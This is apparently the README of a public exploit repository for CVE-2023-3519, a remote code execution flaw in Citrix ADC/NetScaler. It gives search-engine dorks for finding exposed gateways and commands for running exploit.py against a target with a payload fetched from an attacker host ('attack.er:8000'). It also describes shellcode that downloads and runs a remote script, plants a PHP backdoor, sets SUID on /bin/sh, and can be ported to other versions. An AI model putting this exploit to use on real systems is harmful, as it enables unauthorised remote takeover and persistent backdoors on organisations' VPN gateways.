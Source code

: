 # CVE-2023-3519
Citrix ADC RCE

This exploit uses addresses and shellcode for Citrix VPX 13.1-48.47. For the full writeup, click [here](https://bishopfox.com/blog/analysis-exploitation-cve-2023-3519).
 - Shodan dork:
```
title:"NetScaler AAA","Citrix Gateway","NetScaler Gateway"
```
- [Hunter](https://hunter.how/) dork:
```
product.name="NetScaler AAA"
```
```
product.name="Citrix Access Gateway"
```

### Scanner
```
# Check a single URL
python3 scanner.py --url https://example.com

# Check multiple URLs from a file
python scanner.py --file urls.txt

# Check multiple URLs from a file and check for IOCs
python scanner.py --file urls.txt --ioc-check
```
You can also use the [template for nuclei.](https://github.com/SalehLardhi/CVE-2023-3519)

### Usage exploit
NASM is required to build the shellcode. 
```
$ sudo apt install nasm
```

The included shellcode will download and run a shell script from a remote http(s) server. The script takes 3 arguments: the target host, the target port, and the URL of a shell script payload. An example payload which runs `id` and `uname -a` before cleaning up after itself is included in this repo. 

```
$ echo 'id' > a
$ python3 -m http.server &
$ python3 exploit.py target.com 443 attack.er:8000/a
```
The URL must be short enough to fit in the shellcode buffer, and you will get a warning if it is too long. 

### Shellcode artifacts
The shellcode will create a PHP backdoor in `/var/netscaler/logon/a.php` and set the SUID bit on `/bin/sh`. The included `sh` payload shows an example of automatically cleaning up these artifacts. Also note that the shellcode does not close its file descriptors, so excessive repeated exploitation may result in resource exhaustion. 

### Adapting to other versions
For FreeBSD-based Citrix targets, you should only need to find 3 values: the offset of the saved return pointer, a `jmp rsp` ROP gadget (or something equivalent, such as `push rsp; ret;`), and the address to jump to in order to avoid a crash. These parameters are all hardcoded near the top of `cve-2023-3519.py`.

